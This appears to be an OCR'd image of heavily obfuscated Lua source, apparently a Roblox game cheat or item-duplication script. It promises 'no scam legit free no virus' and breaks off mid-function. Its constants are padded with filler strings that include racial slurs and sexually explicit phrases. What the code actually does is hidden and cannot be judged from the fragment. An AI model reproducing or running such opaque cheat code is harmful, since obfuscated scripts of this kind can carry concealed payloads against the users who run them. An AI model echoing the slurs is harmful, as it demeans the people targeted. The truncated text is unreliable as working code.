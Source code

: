 ,nil,nil;(function() _msec=(function(e,o,n)local U=o["كدؠئڪكقؠ"];local W=n[e[(-#"testpsx dupe no scam legit 2022 free no virus"+(728+-0x1e))]][e["ئڝزټؠججڪ"]];local v=(-0x13+23)/(0x20-(0x492/(0x51+-42)))local c=((-0x51+((23328/0x51)-198))+-#"niggers")-(-0x35+54)local O=n[e[(0x114+-86)]][e["ڝجآدقحقسنڪزئنئحئزحس"]];local N=(((-0x20+(0x21d2/78))+-#[[warboy hates you]])+-62)+(356/0xb2)local S=n[e[(571+-#{'}';24,24})]][e["قئضڝ؃ؠكجآجزؠټز؃ئققج"]]local d=(0x106/131)-(-#'big niggers sucking cock'+(((-0x6a+11)+-25)+0x91))local H=(((-0x110/((52640/0x5e)/0x46))+63)+-#[[cilerteddoesntlikeburgers]])local K=(-#{'}',47;'nil';",";","}+9)local M=((0x42+(-5550/(-#[[never gonna give you up never gonna let you down]]+(0x1fb-(-#{{};37;159;","}+313)))))+-#"cilerteddoesntlikeburgers")local j=(((15996/((-#[[holy shit]]+(-118+0x1a4))-169))-0x73)+-#[[send nudes]])local E=(-#'warboy hates you'+(0x86-((-106+(6729642/0xf3))/242)))local C=(((-#{(function()return#{('kbPMML'):find("\80")}>0 and 1 or 0 end),'nil',73;{};'nil';1}+46806)/0xc3)/60)local x=(0x62/(-#'free bobux no skem'+((((0xcc474/28)-15005)+-#[[yeet]])/0xde)))local y=(0xd2/((((-19-(0x7b+-115))+0x166)+-#'free bobux no skem')-208))local w=(-#"big niggers sucking cock"+((0xc3-(-#[[howtodumpscript]]+((0x1ec+-109)-0xe7)))+-32))local s=(-#'howtodumpscript'+(60-((127-(0xc7-(0x53ac/(0x10f+-101))))+-#[[nicowashere]])))local i=((0x9f+(((33+-0x6b)-17)+-#[[nicowashere]]))+-55)local b=(((-#{1,1;1}+215)-120)+-90)local m=(((((-47+(-0x2f12/241))+11)+-#[[niggers]])+0x64)+-#[[yeet]])local u=(9+-#{1;(function()return#{('lfKopH'):find("\75")}>0 and 1 or 0 end);26;{},(function()return{','}end)(),(function()return#{('lfKopH'):find("\75")}>0 and 1 or 0 end)})local g=(37-(((-#'never gonna give you up never gonna let you down'+(-0x58+4911))+-49)/139))local t=(-#"big niggers sucking cock"+(0x3b1/(38+-#{48;(function()return#{('BHKfmL'):find("\75")}>0 and 1 or 0 end),","})))local k=(-#'big niggers sucking cock'+(((-0x4f+((-16428/0xde)+51))+-#'nicowashere')+140))local h=(-#{'nil',(function()return{','}end)(),(function()return#{('KPkhOp'):find("\107")}>0 and 1 or 0 end),'}';{},'nil';{}}+10)local G=e[(-#[[lego hax]]+(1381+-0x3b))];local Q=n[e[(-79+0x10d)]][e["نڝقټټحڝڪنجڝقح؃ئسؠ"]];local J=n[(function(e)return type(e):sub(1,1)..'\101\116'end)('دسڪحجحكئ')..'\109\101'..('\116\97'or'سؠضڪئجڝئ')..e[((0x6a60/46)+-#'big niggers sucking cock')]];local p=n[e[(0x4e1-681)]][e["ضضئڪحؠټح"]];local V=(92-0x5a)-((0x1920/(243+-0x6d))/24)local P=(24-((0xd8+-104)-90))-(79-0x4d)local q=n[e[(-#'free bobux no skem'+(-0x1c+236))]][e["ئټزڪسحقزڝجټ"]];local l=function(e,n)return e..n end local L=(0x80-124)*(-80+(6216/(-39+0x71)))local Y=n[e["ئسآټنڪټڪ"]];local r=(-0x33+53)*((((-#[[warboy hates you]]+(2047728/0x18))/0xdd)-0xf9)+-#"holy shit")local B=(0x33c00/207)*(64-(-#'testpsx dupe no scam legit 2022 free no virus'+(0xb4+(-34+-0x27))))local D=(((-0xaaf38/146)/0x6d)+96)local _=((0x9d8/(((579+-0x60)-0x10a)+-#'niggers'))+-#"send nudes")*(0x1d-27)local f=n[e["؃ؠ؃ڪآئڪئټنڪنزس"]]or n[e[(-#'never gonna give you up never gonna let you down'+(88704/0x90))]][e["؃ؠ؃ڪآئڪئټنڪنزس"]];local a=(((-#[[send nudes]]+(0x4da-(1397-0x2cf)))-0x123)+-#"niggers")local e=n[e["حئجڝڪقجسججحكقزآئ"]];local S=(function(a)local r,o=2,0x10 local n={j={},v={}}local l=-d local e=o+c while true do n[a:sub(e,(function()e=r+e return e-c end)())]=(function()l=l+d return l end)()if l==(L-d)then l=""o=V break end end local l=#a while
e
